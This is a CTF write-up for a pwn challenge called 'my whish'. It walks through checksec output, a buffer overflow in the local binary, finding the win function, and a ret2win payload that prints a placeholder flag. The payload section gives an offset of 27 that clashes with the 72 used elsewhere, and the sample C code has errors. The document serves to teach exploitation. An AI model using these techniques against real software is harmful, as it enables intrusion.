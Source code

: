# challenge Name:
my whish
![](../images/mywhish.png)

```
I want my wish to be realized quickly by Santa Claus. Help me!

NB: exploit the vuln and contact @_ yhack _ on discord .

Author: z0r_

```

The chall give us a binary file.
as it is pwn challenge, the  things to do : 

# check the file type:

```bash
file mywishc
mywishc: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c44a06ef7233ac2c08fb46b4af8f552eaffb5f7b, for GNU/Linux 3.2.0, not stripped
```
Elf 64-bit , ..., Not stripped so it will be easy for us to  reverse engeneering the binary

# check security mitigation on the file
```bash
 $pwn checksec mywishc
[*] '/media/top0n3/data/ctf/christmas2k24/pwn/mywishc'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```
Deam , no mitigation found. that is a security risk .
- The binary not has PIE:  the address of each symbole on .text section will be static for each time we launch the binary. 
For exemple, we can now that each time we run the prog the main function will be at xxxxxx address.
that make buffer overflow exploitation very easy.
- It also don't deactivate a stack execution.
    with that, if we can inject shellcode on stack and make program jump to the location of our shellcode, we can execute it 

after we know that the binary don't has security mitigation, let 
# understand how the program work

```bash
./mywishc
Bienvenue jeune hacker. Entrez votre souhait et le père Noel le réalisera !
Entrez votre souhait : aaaaaaaaaaaaaaaaa
Vous voulez : aaaaaaaaaaaaaaaaa
Revenez plus tard, trop de souhait en attente à réaliser!
```
when we execute the prog, it as us to enter our whish

# found the buffer overflow
```bash
./mywishc
Bienvenue jeune hacker. Entrez votre souhait et le père Noel le réalisera !
Entrez votre souhait : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Vous voulez : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Segmentation fault
```
 - we enter long strings and we get a segfault. Ok that is:
### a buffer overflow in 99% case.
### a short explaination of Buffer overflow
a buffer overflow is a vulnerability that occure when  a program write more data on a local array  variable(stack variable) than the length of the array. for example:
```C
void vuln(void){
    char username [20];
    puts("what is your name");
    gets(name);
    printf("good morning %\n" name);
}

```
if user enter a name with more chars than 20, the buffer overflow occure.
Hope you understand !!!

 
* so we have a buffer overflow, but what can we do with it *
let analyse the program function and see if we can have interesting function to make ret2win
```bash
nm mywishc
000000000040037c r __abi_tag
0000000000404030 B __bss_start
                U __libc_start_main@GLIBC_2.34
....
....
0000000000401207 T main
                 U printf@GLIBC_2.2.5
                 U puts@GLIBC_2.2.5
00000000004010e0 t register_tm_clones
0000000000401070 T _start
0000000000404030 B stdout@GLIBC_2.2.5
0000000000404030 D __TMC_END__
000000000040119e T vuln
0000000000401156 T win
```
we see win function at 0x0000000000401156 address myabe it will give us the flag.
i use ghidra to decompile the prog and this is the win function code:
```C

void win(void)

{
  puts(&DAT_00402008);
  fflush(stdout);
  printf("Tenez ce coupon secret jalousement << CMCTF{XXXX_XXXX_XXXX_XXXX} >>");
  fflush(stdout);
  return;
}
```
interesting: it take no arg and will print the flag .

so now we have all info about the prog. time to exploit the BOF to make program call win function
but how to do that:
 # found BOF offset
    i use gef debugger to found the offset and it is 72

![](../images/gef1.png)
![](../images/gef2.png)

# construct the payload
```
offset = 27
win_address = 0x401156
payload = "a" * offset + b"\x56\x11\x40\x00\x00\x00\x00\x00" 
```

# exploitation
```bash
python3 -c "print('a' * 72 + '\x56\x11\x40\x00\x00\x00\x00\x00')"  | ./mywishc
Bienvenue jeune hacker. Entrez votre souhait et le père Noel le réalisera !
Entrez votre souhait : Vous voulez : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaV@
Bravo ! Vous avez pu obtenir une place privilégiée !
Tenez ce coupon secret jalousement << CMCTF{XXXX_XXXX_XXXX_XXXX} >>Segmentation fault
```
# and we get the flag:
time to write to admin and get the real flag


